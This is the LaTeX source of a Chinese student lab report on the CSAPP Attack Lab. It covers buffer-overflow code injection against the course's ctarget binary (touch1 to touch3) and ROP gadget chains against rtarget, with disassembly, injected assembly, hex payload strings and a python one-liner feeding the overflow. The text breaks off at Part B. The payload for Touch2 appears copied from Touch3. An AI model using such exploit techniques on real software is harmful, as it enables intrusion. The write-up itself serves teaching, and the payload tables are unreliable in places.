% \date{May 14, 2024}
% \author{Deralive}
% \title{华东师范大学软件学院实验报告模板}
% 注意事项:编译两次,以确保目录、页码完整显示

\def\allfiles{}

%————————————多文件编译————————————%
% \ifx\allfiles\undefined
% 	    \begin{document}
% \else
% \fi

% Content

% \ifx\allfiles\undefined
% 	    \end{document}
% 	\else
% 	\fi
%—————————————————————————————————%

\documentclass[14pt,a4paper,UTF8,twoside]{article}

\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{geometry} 
\usepackage{ctex}
\usepackage{booktabs} % 表格库
\usepackage{titlesec} % 标题库
\usepackage{fancyhdr} % 页眉页脚库
\usepackage{lastpage} % 页码数库
\usepackage{listings} % 代码块包
\usepackage{xcolor}
\usepackage[hidelinks]{hyperref}
\usepackage{tikz}
\usepackage{tikz-qtree}
\usepackage{float} % 浮动体环境
\usepackage{subfigure} % 子图排版(多图时用)

\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

\date{} % 留空,以让编译时去除日期

%———————————————注意事项—————————————————%

% 1、如果编译显示失败,但没有错误信息,就是 filename.pdf 正在被占用
% 2、在文件夹中的终端使用 Windows > xelatex filename.tex 也可编译

%—————————————华东师范大学———————————————%

% 论文制作时须加页眉,页眉从中文摘要开始至论文末
% 偶数页码内容为:华东师范大学硕士学位论文,奇数页码内容为学位论文题目

%————————定义 \section 的标题样式————————%

% 注意:\chapter 等命令,内部使用的是 \thispagestyle{plain} 的排版格式
% 若需要自己加上页眉,实际是在用 \thispagestyle{fancy} 的排版格式
% 加上下面这一段指令,就能够让 \section 也使用 fancy 的排版格式
% 本质就是让目录、第一页也能够显示页眉、页脚

\fancypagestyle{plain}{
  \pagestyle{fancy}
}

\title{华东师范大学软件学院实验报告} % 模板
\titleformat{\section}
    {\normalfont\bfseries\Large} % 字体大小、字体系列(\bfseries 为加粗)
    {\thesection}{1em}{}


% 设置章节的中文格式
\renewcommand\thesection{\chinese{section} \hspace{0pt}}
\renewcommand\thesubsection{\arabic{subsection} \hspace{0pt}}
% \renewcommand\thesubsubsection{\alph{subsubsection} \hspace{0pt}} % 字母编号
% \hspace{0pt} 是为了确保在章节编号和章节题目之间不要有空格,使得排版更为美观
    
%—————————————页面基础设置———————————————%

\geometry{left=10mm, right=10mm, top=20mm, bottom=20mm}

%————————————设置页眉、页脚——————————————%

\pagestyle{fancy} % 设置 plain style 的属性

% 设置页眉

\fancyhead[RE]{\leftmark} % Right Even 偶数页右侧显示章名 \leftmark 最高级别章名
\fancyhead[LO]{\rightmark} % Left Odd 奇数页左侧显示节名 \rightmark 第二级别节名
\fancyhead[C]{华东师范大学软件学院实验报告} % Center 居中显示
\fancyhead[LE,RO]{~\thepage~} % 在偶数页的左侧,奇数页的右侧显示页码
\renewcommand{\headrulewidth}{1.2pt} % 页眉与正文之间的水平线粗细

% 设置页脚:在每页的右下脚以斜体显示书名

\fancyfoot[RO,RE]{\it Lab Report By \LaTeX} % 使用意大利斜体显示
\renewcommand{\footrulewidth}{0.5pt} % 页脚水平线宽度

% 设置页码:在底部居中显示页码

\pagestyle{fancy}
\fancyfoot[C]{\kaishu 第 \thepage 页 \ 共 \pageref{LastPage} 页} % LastPage 需要二次编译以获取总页数

%——————————————代码块设置———————————————%

\lstset {
    backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
    basicstyle=\footnotesize,        % the size of the fonts that are used for the code
    breakatwhitespace=false,         % sets if automatic breaks should only happen at whitespace
    breaklines=true,                 % sets automatic line breaking
    captionpos=bl,                   % sets the caption-position to bottom
    commentstyle=\color{mygreen},    % comment style
    deletekeywords={...},            % if you want to delete keywords from the given language
    escapeinside={\%*}{*},           % if you want to add LaTeX within your code
    extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
    frame=single,                    % adds a frame around the code
    keepspaces=true,                 % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
    keywordstyle=\color{blue},       % keyword style
    % language=Python,               % the language of the code
    morekeywords={*,...},            % if you want to add more keywords to the set
    numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
    numbersep=5pt,                   % how far the line-numbers are from the code
    numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
    rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
    showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
    showstringspaces=false,          % underline spaces within strings only
    showtabs=false,                  % show tabs within strings adding particular underscores
    stepnumber=1,                    % the step between two line-numbers. If it's 1, each line will be numbered
    stringstyle=\color{orange},      % string literal style
    tabsize=2,                       % sets default tabsize to 2 spaces
    % title=Python Code              % show the filename of files included with \lstinputlisting; also try caption instead of title
}

% 注释掉的部分用于后续插入代码,参数可调整,格式如下:

% 1、直接插入
% \begin{lstlisting}[language = ? , title = { ? } ]
%       Your code here.
% \end{lstlisting}

% 2、文件插入
% \lstinputlisting[language = C , title = ?.c] {filename.c}

%———————————————字体设置————————————————%

% \setCJKmainfont{SimSun} % 设置正文罗马族的 CJK 字体
% \renewcommand{\normalsize}{\fontsize{12pt}{15pt}\selectfont} % 设置正文字号
\linespread{1.2}

%——————————————————————————————————————%

%——————————————导言区结束,进入正文部分———————————————%

%——————————————————————————————————————%

\begin{document}

\maketitle

\begin{center} % \extracolsep{\fill} 拉伸到页面最大宽度前,保证居中显示

  \begin{tabular*}{\textwidth}{@{\extracolsep{\fill}} l  l  l }
    \hline
    实验课程:计算机系统 &  年级:2023级本科  &  实验成绩: \\
    实验名称:$ Lab3 - Attack \ Lab $ & 姓名:张梓卫 \\
    实验编号:(3) & 学号:10235101526 & 实验日期:2024/05/24 \\
    指导老师:肖波 & 组号: \\
    \hline
  \end{tabular*}

\end{center}

\tableofcontents % 目录也需要二次编译

\section{实验简介}

本实验是$ CSAPP $的实验$ Lab \ 3 $,主要内容是对缓冲区溢出攻击进行实验。
缓冲区溢出是一种常见的程序漏洞,攻击者通过向程序输入超出预设缓冲区大小的数据,覆盖程序的返回地址,从而控制程序的执行流程。
本实验通过实现一个简单的攻击程序,演示了缓冲区溢出攻击的原理。
本实验主要包括以下内容:
\begin{itemize}
  \item 编写一个简单的攻击程序,通过缓冲区溢出攻击修改程序的返回地址,控制程序的执行流程。
  \item 通过调试工具观察程序的内存布局,分析缓冲区溢出攻击的原理。
\end{itemize}

本实验的实验环境为$ x86-64 $的 $ Ubuntu 20.04.2 LTS $,实验报告使用 \LaTeX 撰写。

\section{实验前置准备}
\begin{itemize}

  \item 在$ Linux $ 下解压实验压缩包,进入实验目录。
    \begin{figure} [H]
    \centering
    
\includegraphics[width=0.4\textwidth]{Decompression.png}
    \caption{解压文件成功}
\end{figure}

  \item 使用$ objdump -d ctarget > ctarget.s $获取汇编代码,本部分是使用注入代码(Code)进行攻击;
  \item 使用$ objdump -d rtarget > rtarget.s $获取汇编代码,本部分是面向返回编程(Return)。
  
\end{itemize}

需要使用到的部分命令简介:

\begin{table}[h!]
  \centering
  \begin{tabular}{|c|c|}
      \hline
      ./hew2raw <1.txt> p1.txt &  将攻击字符串转化为可读取格式  \\
      \hline
      gcc -c 1.s & 编译生成1.o文件   \\
      \hline
      objdump -d 1.o(or ctarget)>1.txt & 反汇编输出含机器码的语句 \\
      \hline
      ./ctarget -qi 1.txt &运行1.txt里的内容 \\
      \hline
      touch 1.txt & 创建1.txt文件 \\
      \hline
      gdb ctarget & 编译文件 \\ 
      \hline
      break *0x400000 & 在该地址处设置断点 \\
      \hline
  \end{tabular}
  \caption{命令列表}
\end{table}

\section{实验分析及过程}

\subsection{$Touch 1$}

\subsubsection{getbuf 汇编代码分析}
\begin{lstlisting}[language = C , title = { getbuf.c} ]
    00000000004017a8 <getbuf>:
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp # 栈指针减小 40
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	call   401a40 <Gets> # 调用Gets()函数
    4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	ret    
    4017be:	90                   	nop
    4017bf:	90                   	nop
\end{lstlisting}
\subsubsection{$Touch 1$ 汇编代码分析}

获取汇编代码后,使用$ Ctrl+F $ 搜索找到$ Touch\  1 $函数的代码,如下所示:
\begin{lstlisting}[language = C , title = { Touch 1.c } ]
    void touch1()
    {
        vlevel = 1; /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }
    
    00000000004017c0 <touch1>:
    4017c0:	48 83 ec 08          	sub    $0x8,%rsp
    4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
    4017cb:	00 00 00 
    4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
    4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
    4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
    4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
    4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
    4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
\end{lstlisting}

\subsubsection{$ Touch 1$ 汇编代码解释}
漏洞造成:$gets()$读取函数对字符串没有长度限制,当$callq$时,返回地址在读取信息位置的高字节处,
如果读取字符串过长,就会覆盖返回地址,使其无法返回$getbuf$。

根据$.S$文件可知,$Touch 1$的地址是$ 0x4017c0 $,
所以我们只需要随意输入$40$个字符,然后再输入$ Touch1 $ 的地址来覆盖 $ getbuf $的返回地址即可

注意机器采用$ Little Endian $(小端法) ,地址在栈中的排列顺序——高位在高地址,低位在低地址,
写栈帧从低地址向高地址。

\subsubsection{$Touch 1$ 漏洞注入}
根据上述分析,我们可以构造一个输入字符串,使得$ getbuf $函数返回$ Touch 1 $函数,即可完成$ Touch 1 $的攻击。

一种可行的答案为:
\begin{table}[h!]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        01 02 03 04 05 06 07 08 \\
        31 41 59 26 53 58 97 93 \\
        11 45 14 19 19 18 00 00 \\
        66 66 66 66 23 33 33 33 \\
        27 18 28 18 28 45 90 45 \\
        c0 17 40 00 00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 1$ 漏洞注入方案 }
  \end{table}
\begin{lstlisting}[language = C , title = { 另一种$Python$注入方式 } ]
    python -c 'print "A"*40 + "\xc0\x17\x40\x00\x00\x00\x00\x00"' | ./hex2raw | ./rtarget -q
\end{lstlisting}

\subsubsection{代码运行过程}
在即将运行程序测试时,我使用到了以下命令:
\begin{itemize}
    \item touch touch1.txt 生成一个文件
    \item vim touch1.txt 编辑文件
    \item ./hex2raw < touch1.txt > text1.txt 将文件转化为可读取格式
    \item ./ctarget -q -i < text1.txt 运行文件
\end{itemize}

但在$VMWare 16$中,$Win11$的$Hyper-V$和虚拟机内是冲突的,出现了报错:
$ VMware Workstation $不可恢复错误:

$(vcpu-1) \ Exception \ 0xc0000005 \ (access violation) \ has \ occurred.$

于是我找遍方法,先使用$HypetV.cmd$文件将以下代码写入,然后运行,重启电脑。

\begin{lstlisting}[language = C , title = { $Hyper-V$.cmd } ]
    pushd "%~dp0"
    dir /b %SystemRoot%\servicing\Packages\*Hyper-V*.mum >hyper-v.txt
    for /f %%i in ('findstr /i . hyper-v.txt 2^>nul') do dism /online /norestart /add-package:"%SystemRoot%\servicing\Packages\%%i"
    del hyper-v.txt
    Dism /online /enable-feature /featurename:Microsoft-Hyper-V-All /LimitAccess /ALL
\end{lstlisting}

但最后仍然出现了运行失败的结果,于是卸载了$ WMWare 16 $,安装了$ WMWare 17$,
问题竟然得到了解决。并未使用$WSL2$等其他方法。

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch1.png}
    \caption{$Touch\ 1$实验结果}
\end{figure}

\subsection{$Touch 2$}
首先,要明确我们的任务是跳转执行touch2函数,并欺骗该函数假装传入了正确的cookie。

获取汇编代码后,使用$ Ctrl+F $ 搜索找到$ Touch \ 2 $函数的代码,如下所示:
\begin{lstlisting}[language = C , title = { $Touch \ 2$.c } ]
    00000000004017ec <touch2>:
    4017ec:	48 83 ec 08          	sub    $0x8,%rsp                 # 栈指针减小 8
    4017f0:	89 fa                	mov    %edi,%edx                 #  edx = edi
    4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)       # 6044dc <vlevel>
    4017f9:	00 00 00 
    4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi       # 6044e4 <cookie>
    401802:	75 20                	jne    401824 <touch2+0x38>
    401804:	be e8 30 40 00       	mov    $0x4030e8,%esi            # esi = 0x4030e8
    401809:	bf 01 00 00 00       	mov    $0x1,%edi                 # edi = 1
    40180e:	b8 00 00 00 00       	mov    $0x0,%eax                 # eax = 0
    401813:	e8 d8 f5 ff ff       	call   400df0 <__printf_chk@plt>
    401818:	bf 02 00 00 00       	mov    $0x2,%edi                 # edi = 2
    40181d:	e8 6b 04 00 00       	call   401c8d <validate>         # 调用validate函数
    401822:	eb 1e                	jmp    401842 <touch2+0x56>      # 跳转到401842
    401824:	be 10 31 40 00       	mov    $0x403110,%esi            # esi = 0x403110
    401829:	bf 01 00 00 00       	mov    $0x1,%edi                 # edi = 1
    40182e:	b8 00 00 00 00       	mov    $0x0,%eax                 # eax = 0
    401833:	e8 b8 f5 ff ff       	call   400df0 <__printf_chk@plt> # 调用printf函数
    401838:	bf 02 00 00 00       	mov    $0x2,%edi                 # edi = 2
    40183d:	e8 0d 05 00 00       	call   401d4f <fail>             # 调用fail函数
    401842:	bf 00 00 00 00       	mov    $0x0,%edi                 # edi = 0
    401847:	e8 f4 f5 ff ff       	call   400e40 <exit@plt>
\end{lstlisting}

显然,我们只需要跳转到$ 0x401804 $的位置,即可成功调用$ touch2 $函数。
注意到汇编代码中有这样的一行:

$$ 0x00000000004017fc <+16>:\ \ \    cmp   \ \ \  0x202ce2(\%rip),\ \%edi\  \  \#\  0x6044e4 <cookie> $$

显然这是需要被比较的值$cookie$的位置,在cookie.txt中可以看到,cookie的值为$0x59b997fa$。

touch2中,只有当edi与cookie值相等时,才可以成功攻击。
因此需要利用缓冲区溢出修改寄存器的值,并写入攻击代码改变rdi/edi的值,

\subsubsection{$Touch 2$ 漏洞注入}
\begin{lstlisting}[language = C , title = { $Touch \ 2$.c } ]
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }     else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
    }
    exit(0);
}
\end{lstlisting}

通过touch2的C代码,我们发现这次我们不仅需要攻击调用touch2,还要传入一个正确的参数,
通过汇编找到该参数,我们可以得到cookie的值为0x59b997fa。
只有传入的参数等于cookie时,我们才能成功,否则会misfire
因此这次我们需要在栈帧中写入一些代码,以此让存放第一个参数的寄存器$\%rdi$的值为$0x59b997fa$

因为ctarget没有栈保护机制,因此栈顶的位置固定,所以我们直接在栈顶写入我们想要的代码即可
现在.s文件中写下以下汇编代码:

使用以下命令:
\begin{itemize}
    \item touch inject.S 生成一个文件
    \item vim inject.S 编辑文件
    \item gcc -c inject.S 生成.o文件
    \item objdump -d inject.o > inject.txt 反汇编输出含机器码的语句
    \item ./hex2raw < inject.txt > inject.txt 将文件转化为可读取格式
    \item ./ctarget -q -i inject.txt 运行文件
\end{itemize}

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

转化完成后,如下代码所示:
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    touch2.o:     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
       7:	68 ec 17 40 00       	push   $0x4017ec
       c:	c3                   	ret     
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 2$ 漏洞注入方案 }
  \end{table}

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch2.png}
    \caption{$Touch\ 2$实验结果}
\end{figure}

\subsection{Touch3}

\subsubsection{实验要求与思路}
执行完$getbuf$后执行$touch3$,而$touch3$的参数是一个地址,地址的内容是$cookie$。

思路:首先先将之前获取的$cookie$转化为$16$进制字符。
$0x59b997fa$转化为$35\ 39\ 62\ 39\ 39\ 37\ 66\ 61$.

接着要找到一个地方存放字符串$cookie$,是否能将其直接放在栈的内部呢?查看$touch3$内容:

\subsubsection{汇编代码分析}
首先与之前同理,先获取Touch3的汇编代码,注意一些特别的关键点,不贴全部的内容了,占用空间,如下所示:
\begin{lstlisting}[language = C , title = {Touch3.s} ]
000000000040184c <hexmatch>:
    40184c:  41 54          push  %r12
    40184e:  55             push  %rbp
    40184f:  53             push  %rbx
    401850:  48 83 c4 80    add  $0xffffffffffffff80,%rsp

00000000004018fa <touch3>:
    4018fa:  53                    push  %rbx
    4018fb:  48 89 fb              mov  %rdi,%rbx
    4018fe:  c7 05 d4 2b 20 00 03  movl  $0x3,0x202bd4(%rip)   # 6044dc <vlevel>
    401905:  00 00 00 
    401908:  48 89 fe              mov  %rdi,%rsi
    40190b:  8b 3d d3 2b 20 00     mov  0x202bd3(%rip),%edi    # 6044e4 <cookie>
    401911:  e8 36 ff ff ff        callq 40184c <hexmatch>      
\end{lstlisting}

由上面这部分指令可知,在调用$touch3$时,栈会继续向下增长从而覆盖$touch3$地址以下的内容,
所以要将目标字符串放在$touch3$的高字节部分。

于是考虑将字符串放在返回地址(栈外)的高字节位置。经过计算得到地址为$0x5561dca8$

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x5561dca8,%rdi    #将cookie的地址放入rdi
    pushq   $0x4018fa           #push touch3 address
    ret                         #return to touch3            
\end{lstlisting}

转化完成后,如下代码所示:
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    in3.o:     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
       7:	68 fa 18 40 00       	push   $0x4018fa
       c:	c3                   	ret    
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3$ 漏洞注入方案 }
  \end{table}

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch3.png}
    \caption{$Touch\ 3$实验结果}
\end{figure}



\subsection{rtarget.c}
\subsection{Part A}
$rtarget$要做到的事情与$ctarget$中$touch2$和$touch3$完全一致,但是$rtarget$中对栈进行了保护。

采用以下两种技术对抗攻击:

随机化,每次运行栈的位置都不同,所以无法决定注入代码应放位置。

将保存栈的内存区域设置为不可执行,所以即使能够把注入的代码的起始地址放入程序计数器中,程序也会报段错误失败。

根据官方文档,解决方案需要使用小工具的方式实现,只能使用到前八个寄存器。

限制我们只能利用两个位于 $start_farm$ 和 $mid_farm $中的 $gadget$ 函数,
且限制使用的指令为$ movq\ popq\ ret\ nop\ $,且只能利用表格中提供的形式。

\begin{table}[H]
    \centering
    \begin{tabular}{|c|c|c|c|c|c|c|c|c|}
        \hline
        & \multicolumn{8}{c|}{\textbf{Destination} \textit{D}} \\
        \cline{2-9}
        \textbf{Source} \textit{S} & \%rax    & \%rcx    & \%rdx    & \%rbx    & \%rsp    & \%rbp    & \%rsi    & \%rdi    \\
        \hline
        \%rax                      & 48 89 c0 & 48 89 c1 & 48 89 c2 & 48 89 c3 & 48 89 c4 & 48 89 c5 & 48 89 c6 & 48 89 c7 \\
        \%rcx                      & 48 89 c8 & 48 89 c9 & 48 89 ca & 48 89 cb & 48 89 cc & 48 89 cd & 48 89 ce & 48 89 cf \\
        \%rdx                      & 48 89 d0 & 48 89 d1 & 48 89 d2 & 48 89 d3 & 48 89 d4 & 48 89 d5 & 48 89 d6 & 48 89 d7 \\
        \%rbx                      & 48 89 d8 & 48 89 d9 & 48 89 da & 48 89 db & 48 89 dc & 48 89 dd & 48 89 de & 48 89 df \\
        \%rsp                      & 48 89 e0 & 48 89 e1 & 48 89 e2 & 48 89 e3 & 48 89 e4 & 48 89 e5 & 48 89 e6 & 48 89 e7 \\
        \%rbp                      & 48 89 e8 & 48 89 e9 & 48 89 ea & 48 89 eb & 48 89 ec & 48 89 ed & 48 89 ee & 48 89 ef \\
        \%rsi                      & 48 89 f0 & 48 89 f1 & 48 89 f2 & 48 89 f3 & 48 89 f4 & 48 89 f5 & 48 89 f6 & 48 89 f7 \\
        \%rdi                      & 48 89 f8 & 48 89 f9 & 48 89 fa & 48 89 fb & 48 89 fc & 48 89 fd & 48 89 fe & 48 89 ff \\
        \hline
    \end{tabular}
    \caption{\texttt{movq} \textit{S, D} 的机器代码}
    \label{tab:movq-reference}
\end{table}

\begin{table}[ht]
    \centering
    \begin{tabular}{|c|c|c|c|c|c|c|c|c|}
        \hline
        & \multicolumn{8}{c|}{\textbf{Register} \textit{R}} \\
        \cline{2-9}
        \textbf{Operation} & \%rax & \%rcx & \%rdx & \%rbx & \%rsp & \%rbp & \%rsi & \%rdi \\
        \hline
        popq \textit{R}    & 58    & 59    & 5a    & 5b    & 5c    & 5d    & 5e    & 5f    \\
        \hline
    \end{tabular}
    \caption{\texttt{popq} 的机器代码}
    \label{tab:popq-reference}
\end{table}

我们先了解一下什么是gadget函数。

gadget 指一段以 ret 指令结尾指令序列。例如,下面的 $setval_328$ 函数就是一段 gadget 指令。
\begin{lstlisting}[language = C]
void setval_328(unsigned *p)
{
    *p = 3526935169U;
}
\end{lstlisting}

接下来,我们使用以下命令获取汇编代码:
\begin{itemize}
    \item gcc -c farm.c -o farm.o
    \item objdump -d farm.o > farm.d
\end{itemize}

\begin{lstlisting}[language = C]
    00000000000002b8 <setval_328>:
    2b8:	f3 0f 1e fa          	endbr64 
    2bc:	55                   	push   %rbp
    2bd:	48 89 e5             	mov    %rsp,%rbp
    2c0:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
    2c4:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    2c8:	c7 00 81 c2 38 d2    	movl   $0xd238c281,(%rax)
    2ce:	90                   	nop
    2cf:	5d                   	pop    %rbp
    2d0:	c3                   	ret   
\end{lstlisting}

\subsubsection{攻击方案分析}
代码回顾如下,我们先回顾touch2和touch3的代码,然后再看rtarget的代码。
\begin{lstlisting}[language = C,title = touch2.c]
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }     else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
    }
    exit(0);
}
\end{lstlisting}

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

我们需要修改\%rdi寄存器的值,以此跳转到$touch2$函数。
根据$ctarget$部分的分析,$Touch2$中$Cookie$的值我们是已知的。
现在需要将这个值放入栈中并在小工具中将$popq$到某个寄存器中,在执行寄存器$movq$指令即可。

在farm中寻找合适的gadget函数,过程如下,将栈中的值放入寄存器中。
\begin{lstlisting}
    00000000004019a7 <addval_219>:
      4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
      4019ad:   c3                      retq
\end{lstlisting}
    
\texttt{58 90 c3} 代表了:
\begin{lstlisting}
    popq %rax #0x4019ab
    nop
    ret
\end{lstlisting}
    
\begin{lstlisting}
    00000000004019a0 <addval_273>:
      4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
      4019a6:   c3                      retq
\end{lstlisting}
    
\texttt{48 89 c7} 代表:
\begin{lstlisting}
    movq % rax ,% rdi       # 0x4019a2
\end{lstlisting}


因此我们需要做的就是在$getbuf$的$return address$写上第一个$gadget$的地址,
接着写入$cookie$的值,再写入第二个$gadget$的地址,最后写入$touch2$的地址。

\subsubsection{Answers}
\begin{lstlisting}
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00     # popq % rax
    fa 97 b9 59 00 00 00 00     # popq content
    a2 19 40 00 00 00 00 00     # movq % rax,% rdi
    ec 17 40 00 00 00 00 00     # touch2
\end{lstlisting}
    
\subsubsection{实验结果}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Rts1.png}
    \caption{rtarget Part 1实验结果}
\end{figure}

\subsection{Part B}
    本部分是CMU官方都劝退的,因为采用了随机栈,
    所以我们不能通过绝对寻址找到我们写入字符串的首地址,
    但是CMU指出,用到lea(\%rdi,\ \%rsi,\ 1),\%rax,
    即提示我们要将初始运行时的栈顶位置储存,
    通过固定数量的操作后,写上字符串,
    我们要让存储的\%rsp加上操作占用的栈帧,
    再将它放入\%rdi中,实现了对字符串首地址的相对寻址。

\begin{figure} [H]
    \centering
